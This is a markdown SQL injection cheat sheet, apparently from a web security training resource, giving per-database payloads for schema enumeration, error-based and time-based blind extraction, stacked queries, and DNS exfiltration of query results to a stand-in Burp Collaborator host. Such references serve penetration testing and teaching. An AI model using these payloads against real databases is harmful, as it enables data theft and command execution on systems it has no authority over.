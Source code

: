 SQL injection cheat sheet

# String concatenation
You can concatenate together multiple strings to make a single string.
- Oracle 		
				- `'foo'||'bar'`
- Microsoft 	
				- `'foo'+'bar'`
- PostgreSQL 	
				- `'foo'||'bar'`
- MySQL 	
 				- `'foo' 'bar'` [Note the space between the two strings]
 				- `CONCAT('foo','bar')`

# Substring
You can extract part of a string, from a specified offset with a specified length. Note that the offset index is 1-based. Each of the following expressions will return the string `ba`:
- Oracle 		
				- `SUBSTR('foobar', 4, 2)`
- Microsoft 	
				- `SUBSTRING('foobar', 4, 2)`
- PostgreSQL 	
				- `SUBSTRING('foobar', 4, 2)`
- MySQL 		
				- `SUBSTRING('foobar', 4, 2)`

# Comments
You can use comments to truncate a query and remove the portion of the original query that follows your input.
- Oracle 		
				- `--comment`
- Microsoft 	
				- `--comment`
				- `/*comment*/`
- PostgreSQL 	
				- `--comment`
				- `/*comment*/`
- MySQL 
				- `#comment`
				- `-- comment` [Note the space after the double dash]
				- `/*comment*/`

# Database version
You can query the database to determine its type and version. This information is useful when formulating more complicated attacks.
- Oracle
				- `SELECT banner FROM v$version`
				- `SELECT version FROM v$instance`
- Microsoft 	
				- `SELECT @@version`
- PostgreSQL 	
				- `SELECT version()`
- MySQL 		
				- `SELECT @@version`

# Database contents
You can list the tables that exist in the database, and the columns that those tables contain.
- Oracle
				- `SELECT * FROM all_tables`
				- `SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'`
- Microsoft 	
				- `SELECT * FROM information_schema.tables`
				- `SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'`
- PostgreSQL 	
				- `SELECT * FROM information_schema.tables`
				- `SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'`
- MySQL 	
				- `SELECT * FROM information_schema.tables`
				- `SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'`

# Conditional errors
You can test a single boolean condition and trigger a database error if the condition is true.
- Oracle 		
				- `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN TO_CHAR(1/0) ELSE NULL END FROM dual`
- Microsoft 	
				- `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END`
- PostgreSQL 	
				- `1 = (SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/(SELECT 0) ELSE NULL END)`
- MySQL 		
				- `SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a')`

# Extracting data via visible error messages
You can potentially elicit error messages that leak sensitive data returned by your malicious query.
- Microsoft
				- `SELECT 'foo' WHERE 1 = (SELECT 'secret')`
				- `> Conversion failed when converting the varchar value 'secret' to data type int.`
- PostgreSQL 
				- `SELECT CAST((SELECT password FROM users LIMIT 1) AS int)`
				- `> invalid input syntax for integer: "secret"`
- MySQL
				- `SELECT 'foo' WHERE 1=1 AND EXTRACTVALUE(1, CONCAT(0x5c, (SELECT 'secret')))`
				- `> XPATH syntax error: '\secret'`


# Batched (or stacked) queries
You can use batched queries to execute multiple queries in succession. Note that while the subsequent queries are executed, the results are not returned to the application. Hence this technique is primarily of use in relation to blind vulnerabilities where you can use a second query to trigger a DNS lookup, conditional error, or time delay.
- Oracle 	**Does not support batched queries.**
- Microsoft
				- `QUERY-1-HERE; QUERY-2-HERE`
				- `QUERY-1-HERE QUERY-2-HERE`
- PostgreSQL
				- `QUERY-1-HERE; QUERY-2-HERE`
- MySQL
				- `QUERY-1-HERE; QUERY-2-HERE`
```
Note
With MySQL, batched queries typically cannot be used for SQL injection. However, this is occasionally possible if the target application uses certain PHP or Python APIs to communicate with a MySQL database.
```

# Time delays
You can cause a time delay in the database when the query is processed. The following will cause an unconditional time delay of 10 seconds.
- Oracle
				- `dbms_pipe.receive_message(('a'),10)`
- Microsoft
				- `WAITFOR DELAY '0:0:10'`
- PostgreSQL
				- `SELECT pg_sleep(10)`
- MySQL
				- `SELECT SLEEP(10)`


# Conditional time delays
You can test a single boolean condition and trigger a time delay if the condition is true.
- Oracle
				- `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 'a'||dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual`
- Microsoft
				- `IF (YOUR-CONDITION-HERE) WAITFOR DELAY '0:0:10'`
- PostgreSQL
				- `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END`
- MySQL
				- `SELECT IF(YOUR-CONDITION-HERE,SLEEP(10),'a')`


# DNS lookup
You can cause the database to perform a DNS lookup to an external domain. To do this, you will need to use Burp Collaborator to generate a unique Burp Collaborator subdomain that you will use in your attack, and then poll the Collaborator server to confirm that a DNS lookup occurred.
- Oracle 	
				- **(XXE) vulnerability to trigger a DNS lookup. The vulnerability has been patched but there are many unpatched Oracle installations in existence:**
				- `SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual`

				- **The following technique works on fully patched Oracle installations, but requires elevated privileges:**
				- `SELECT UTL_INADDR.get_host_address('BURP-COLLABORATOR-SUBDOMAIN')`
- Microsoft
				- `exec master..xp_dirtree '//BURP-COLLABORATOR-SUBDOMAIN/a'`
- PostgreSQL
				- `copy (SELECT '') to program 'nslookup BURP-COLLABORATOR-SUBDOMAIN'`
- MySQL
				- **The following techniques work on Windows only:**
				- `LOAD_FILE('\\\\BURP-COLLABORATOR-SUBDOMAIN\\a')`
				- `SELECT ... INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'`


# DNS lookup with data exfiltration
You can cause the database to perform a DNS lookup to an external domain containing the results of an injected query. To do this, you will need to use Burp Collaborator to generate a unique Burp Collaborator subdomain that you will use in your attack, and then poll the Collaborator server to retrieve details of any DNS interactions, including the exfiltrated data.
- Oracle
				- `SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT YOUR-QUERY-HERE)||'.BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual`
- Microsoft
				- `declare @p varchar(1024);set @p=(SELECT YOUR-QUERY-HERE);exec('master..xp_dirtree "//'+@p+'.BURP-COLLABORATOR-SUBDOMAIN/a"')`
- PostgreSQL
				- ```sql
				create OR replace function f() returns void as $$
				declare c text;
				declare p text;
				begin
				SELECT into p (SELECT YOUR-QUERY-HERE);
				c := 'copy (SELECT '''') to program ''nslookup '||p||'.BURP-COLLABORATOR-SUBDOMAIN''';
				execute c;
				END;
				$$ language plpgsql security definer;
				SELECT f();
				```
- MySQL
				- **The following technique works on Windows only:**
				- `SELECT YOUR-QUERY-HERE INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'`